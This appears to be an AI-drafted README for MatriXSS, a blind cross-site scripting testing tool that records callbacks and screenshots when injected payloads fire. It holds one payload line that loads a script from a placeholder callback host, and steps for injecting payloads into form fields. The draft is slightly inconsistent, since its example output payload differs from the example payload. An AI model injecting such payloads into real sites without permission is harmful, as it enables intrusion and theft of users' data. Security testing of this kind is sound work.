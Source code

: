 Here’s a README layout for your **MatriXSS** project, inspired by the uploaded document:

---

# MatriXSS

## Table of Contents
1. [Introduction](#introduction)
2. [Key Features](#key-features)
3. [Installation](#installation)
4. [Usage](#usage)
5. [Technical Overview](#technical-overview)
6. [Examples](#examples)
7. [Design Philosophy](#design-philosophy)
8. [Contributing](#contributing)
9. [Future Work](#future-work)
10. [Acknowledgments](#acknowledgments)
11. [License](#license)

---

## Introduction
**MatriXSS** is an open-source tool designed to demonstrate and communicate the impact of **blind Cross-Site Scripting (XSS)** vulnerabilities. Developed in collaboration with **Hackify**, this project aims to address the challenges organizations face in understanding and mitigating blind XSS attacks.

Blind XSS attacks occur when the payload is triggered in a context inaccessible to the attacker, such as an admin interface. MatriXSS bridges the gap between technical vulnerability details and actionable insights by providing **visual demonstrations** and reports.

---

## Key Features
- **Visual Impact Demonstrations**: Show the effects of blind XSS in a clear, "matrix-style" visualization.
- **Custom Payload Support**: Tailor payloads to simulate real-world attacks.
- **Stakeholder-Friendly Outputs**: Simplified visuals and summaries for non-technical audiences.

---

## Installation

### Prerequisites
- Python 3.8+
- Required libraries listed in `requirements.txt`

### Run locally
1. Clone the repository:
   ```bash
   git clone https://github.com/your-username/MatriXSS.git
   cd MatriXSS
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. Start virtual enviroment
    ```bash
    #Windows
   venv\Scripts\activate
    #linux
   . ./.venv/bin/activate
   ``` 
4. Start the application
   ```bash
  python3 ./main.py
   ``` 
  On windows:
  
### Run in Docker
1. Clone the repository:
   ```bash
   git clone https://github.com/your-username/MatriXSS.git
   cd MatriXSS
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. Docker compose
   ```bash
   docker compose up
   ```
---

## Usage
1. **Select a Payload**: Choose or customize a JavaScript payload to test a target.
2. **Inject Payload**: Manually input the payload into a vulnerable entry point (e.g., form fields or URL parameters).
3. **Callback Handling**: When a payload is executed, the tool automatically sends a **callback** to the server, capturing a screenshot of the vulnerability in action.
4. **Analyze Results**: Use the results page to review:
   - URL of the vulnerability.
   - Payload executed.
   - Screenshot of the impacted page.

### Basic Example
```bash
python matrixss.py --url http://example.com
```

## Technical Overview
### Core Workflow
1. **Payload Selection**: Choose a custom JavaScript payload to trigger vulnerabilities.
2. **Exploitation**: Inject payloads into potential entry points on a target web application.
3. **Data Collection**: Log vulnerabilities detected during the exploitation phase.
4. **Results Visualization**: Display findings in a visual, interactive format for stakeholders.

### Supported Tools
MatriXSS integrates concepts inspired by:
- **Toxxsin**: For advanced payload handling.
- **OWASP ZAP**: For general web application security.
- **XSSHunter**: For blind XSS-specific scenarios.

---

## Examples

### Manual XSS Test
1. Choose a payload:
   ```javascript
   '<script src="{APPLICATION_HOST_URL}"></script>'
   ```
2. Inject it into a vulnerable input field or URL parameter.
3. When the payload is triggered, the tool automatically:
   - Sends a callback to the server.
   - Captures a screenshot.
4. Review results on the **/results** page.


**Output**:
- Vulnerable URL: `/form`
- Payload: `alert('XSS Detected')`

### Visual Output
The tool generates a dashboard with:
- Screenshots of exploited pages.

---

## Design Philosophy
- **Accessibility**: Bridge technical complexity with intuitive visuals for non-technical audiences.
- **Modularity**: Enable integration with existing tools like OWASP ZAP or Jenkins.
- **Community-Driven**: Leverage open-source contributions to improve functionality and scope.

---

## Contributing
We welcome contributions! To contribute:
1. Fork the repository.
2. Create a branch for your feature:
   ```bash
   git checkout -b feature-name
   ```
3. Submit a pull request with a detailed description.

---

## Future Work
Planned improvements include:
- Metadata in screenshots to be added(add identifier to screenshots)
- Application screenshots need to be linked to specific user accounts
- Add functionality to register accounts
- Visualize where vulnerabilty is found.
- Implement security into webapplication.

---


---

## License
MatriXSS is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---

Let me know if you'd like to refine any sections or add specific technical details!
